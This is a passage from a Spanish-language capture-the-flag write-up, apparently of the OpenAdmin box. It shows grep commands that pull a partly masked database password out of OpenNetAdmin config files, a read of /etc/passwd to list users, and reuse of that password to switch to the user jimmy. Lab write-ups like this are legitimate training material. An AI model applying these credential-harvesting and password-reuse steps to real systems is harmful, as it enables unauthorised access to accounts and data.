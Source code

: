 ```bash
www-data@openadmin:/opt/ona$ grep -i -r "passw"

[...]

www/include/auth/ldap.class.php:            // User/Password bind
www/include/auth/local.class.php:   * Check user+password [ MUST BE OVERRIDDEN ]
www/include/auth/local.class.php:   * password is correct
www/include/auth/local.class.php:   *     found user should be set if we find the user even if the password does not match
www/include/auth/local.class.php:            // check that the password is the same.
www/include/auth/local.class.php:            if($md5pass === $user['password']) {
www/config/auth_ldap.config.php://$conf['auth']['ldap']['bindpw']   = 'mysecretbindpassword';
www/.htaccess.example:# who is a defined user within the system.  No password is required.
www/.htaccess.example:# You will need to create an .htpasswd file that conforms to the standard
www/.htaccess.example:# htaccess format, read the man page for htpasswd.  Change the 
www/.htaccess.example:# AuthUserFile option below as needed to reference your .htpasswd file.
www/.htaccess.example:# Keep in mind that this password is not necassarily the same password
www/.htaccess.example:# names, however, do need to be the same in both the .htpasswd and web
www/.htaccess.example:# an https:// type url.  dcm.pl allows you to specify a user/password 
www/.htaccess.example:# You can choose to use the IP filter, password or both for authentication.
www/.htaccess.example:    # This section allows you to force a password
www/.htaccess.example:    #AuthUserFile /opt/ona/www/.htpasswd
www/dcm.php:// be careful as this currently does not require a password.
www/local/config/database_settings.inc.php:        'db_passwd' => 'n1xxxxxxxi0R!',
www/winc/user_edit.inc.php:                Password
www/winc/user_edit.inc.php:                    name="passwd"
www/winc/user_edit.inc.php:                    alt="Password"
www/winc/user_edit.inc.php:                    type="password"
www/winc/user_edit.inc.php:    if (!$form['id'] and !$form['passwd']) {
www/winc/user_edit.inc.php:        $js .= "alert('Error! A password is required to create a new employee!');";
www/winc/user_edit.inc.php:    // md5sum the password if there is one
www/winc/user_edit.inc.php:    if ($form['passwd']) {
www/winc/user_edit.inc.php:        $form['passwd'] = md5($form['passwd']);
www/winc/user_edit.inc.php:                'passwd'      => $form['passwd'],
www/winc/user_edit.inc.php:        if (strlen($form['passwd']) < 32) {
www/winc/user_edit.inc.php:            $form['passwd'] = $record['passwd'];
www/winc/user_edit.inc.php:                'passwd'      => $form['passwd'],

[...]
```
Miro el /etc/passwd para ver si hay mas usuarios en el sistema y veo que hay mas usuarios:

```bash
www-data@openadmin:/opt/ona$ grep -E 1[0-9]{3}  /etc/passwd | sed s/:/\ / | awk '{print $1}'

jimmy
joanna
```

Pruebo a migrar de usuario con la contraseña que encontré, y funcionó con el usuario jimmy.
